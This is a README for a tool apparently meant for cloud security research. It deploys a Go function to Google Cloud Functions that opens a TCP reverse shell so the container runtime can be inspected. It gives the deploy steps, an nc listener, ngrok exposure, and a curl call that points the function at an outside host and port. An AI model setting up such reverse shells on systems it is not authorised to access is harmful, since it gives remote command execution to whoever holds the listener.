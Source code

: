 # Puma Prey Cheetah

Cheetah is a Go function that can be deployed to the Google Cloud Platform to establish a TCP reverse shell for the purposes of introspecting the Cloud Functions container runtime.

## Getting Started

```
export GOPATH=/PATH/TO/cheetah
cd /PATH/TO/cheetah/src/cheetah
make
```

Follow the steps at the top of the `serverless.yml` file to generate a credentials file. Modify the `serverless.yml` file to point to your GCP project ID and the **absolute path** of the credentials file.

```
npm install
serverless deploy
```

## Usage

Set up a TCP listener for your reverse shell, such as with [Netcat](http://netcat.sourceforge.net/):

```
nc -l 4444
```

To make your listener accessible from the public internet, consider using a service like [ngrok](https://ngrok.com/):

```
ngrok tcp 4444
```

Navigate to your function, supplying your connection details:

```
curl 'http://us-central1-YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID.cloudfunctions.net/Cheetah?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER'
```

Your listener will now act as a reverse shell for the duration of the function invocation. You can adjust the function timeout in the serverless.yml file.

## Teardown

```
serverless remove
```

## Serverless Go Template

Creating the original function template using the serverless framework.

```bash
cd src
serverless create --template google-go --path cheetah
```

## Exploring Further

Refer to [Serverless Docs](https://serverless.com/framework/docs/providers/google/) for more information.
